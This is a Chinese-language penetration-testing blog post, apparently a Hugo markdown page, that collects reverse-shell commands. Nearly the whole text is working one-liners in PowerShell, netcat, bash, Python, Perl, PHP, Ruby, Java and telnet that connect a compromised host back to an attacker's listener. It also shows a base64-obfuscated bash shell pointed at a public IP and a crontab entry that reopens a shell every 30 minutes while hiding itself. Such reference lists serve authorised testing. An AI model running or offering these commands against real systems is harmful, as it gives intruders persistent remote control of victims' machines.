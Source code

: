 +++
date = "2016-08-06T08:36:53+08:00"
description = ""
draft = false
tags = ["反弹shell"]
title = "反弹shell小结"
topics = ["Pentest"]

+++

当你找到一个有命令执行的主机时，你可能想要一个交互式的shell，如果你不能添加用户或者添加ssh密钥时，你就需要反弹一个shell来实现，下面的都是反弹shell的命令

### 0x00 PowerShell
```
#更换ip和端口即可
本地：nc -lv 8888
目标：powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.10';$p='8888';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};
```

### 0x01 Netcat
```
本地：nc -vv -l 8888
目标：nc -e cmd.exe 10.10.10.10 8888 #nc -e /bin/sh 10.10.10.10 8888

#获得交互式的shell：
在得到shell后执行：python -c "import pty; pty.spawn('/bin/bash')"
```

### 0x02 Bash
```
bash -i >& /dev/tcp/10.10.10.10/8888 0>&1
注：这个由解析shell的bash完成，有些时候不支持

reber@wyb:~$ cat tmp.txt 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzExNC4xMTUuMTgzLjg2LzY2NjYgMD4mMQ==
reber@wyb:~$ cat tmp.txt |base64 -d
/bin/bash -i >& /dev/tcp/114.115.183.86/6666 0>&1
reber@wyb:~$ 
reber@wyb:~$ {cat,tmp.txt}|{base64,-d}|{bash,-i}
reber@wyb:~$ /bin/bash -i >& /dev/tcp/114.115.183.86/6666 0>&1
reber@wyb:~$ exit
reber@wyb:~$ 
```

### 0x03 crontab
```
下面这条命令执行后会每隔30分钟反弹一次：
(crontab -l;printf "*/30 * * * * exec 9<> /dev/tcp/10.10.10.10/8888;exec 0<&9;
exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|
crontab -
```

### 0x04 Python
```python
# 下面为1条命令
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.10.10.10",8888));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### 0x05 Perl
```
# 下面为1条命令
perl -e 'use Socket;$i="10.10.10.10";$p=8888;socket(S,PF_INET,SOCK_STREAM,
getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,
">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 0x06 PHP
```
php -r '$sock=fsockopen("10.10.10.10",8888);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 0x07 Ruby
```
# 下面为1条命令
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8888).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 0x08 Java
```
# 下面为3条命令
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/8888;cat <&5 | 
while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### 0x09 telnet
```
两种方法：
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
telnet 173.214.173.151 8080 | /bin/bash | telnet 173.214.173.151 8888
第一种hacker运行：nc -vlp 8080
第二种hacker运行：nc -vlp 8080和nc -vlp 8888
```

<br />
#### Reference(侵删)：
* [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [https://www.91ri.org/6620.html](https://www.91ri.org/6620.html)
